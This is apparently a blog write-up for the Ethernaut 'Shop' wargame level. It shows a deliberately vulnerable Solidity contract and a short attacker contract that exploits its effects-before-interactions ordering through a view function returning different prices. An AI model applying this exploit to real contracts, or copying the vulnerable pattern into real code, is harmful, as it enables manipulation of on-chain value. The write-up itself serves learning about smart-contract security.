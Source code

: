 ###########################
Ethernaut 21: Shop
###########################
:date: 2023-10-25
:slug: ethernaut-21-shop
:summary: check-effects-interactions can bite you in the ass too
:tags: programming
:author: capu
:featured_image:


Objective
=========
Manage to *decrease* the ``price`` saved in the ``Shop``

Code
====
.. code-block:: solidity
    :linenos: inline

    interface Buyer {
        function price() external view returns (uint256);
    }

    contract Shop {
        uint256 public price = 100;
        bool public isSold;

        function buy() public {
            Buyer _buyer = Buyer(msg.sender);

            if (_buyer.price() >= price && !isSold) {
                isSold = true;
                price = _buyer.price();
            }
        }
    }

The ``Shop`` contract stores the current price of the object, and only lets you
buy it, that is, set its new price, if the price you report is greater than the
current one.

Solution
========
Normally I could deploy the same solution as for the `Elevator
<{filename}/2023-08-06-ethernaut-11-elevator.rst>`_ level, but that
relied on storing a value on the attacking contract's state in order to return a
different value in the first vs second call.

In this case, the ``Buyer`` interface specifies the ``price()`` function has
``view`` mutability. This means it'll be called with the `STATICCALL
<https://www.evm.codes/#fa?fork=shanghai>`_ opcode, which sets the EVM to revert
on state modifications.

Thing is, I can still return different values without modifying the attacker's
state, because the storage of the ``Shop`` does change between calls to
``price()``. Doing the effects *before* the interactions is what breaks this level
🙃

.. code-block:: solidity
    :linenos: inline
    :hl_lines: 3

    contract Hustler is Buyer {
        function price() external view returns (uint256){
            if(Shop(msg.sender).isSold()) return 90;
            return 110;
        }

        function attack(Shop shop) external {
            shop.buy();
        }
    }

.. code-block:: solidity
    :linenos: inline

    function solution(address payable target_) internal override{
        Shop target = Shop(target_);
        (new Hustler()).attack(target);
    }


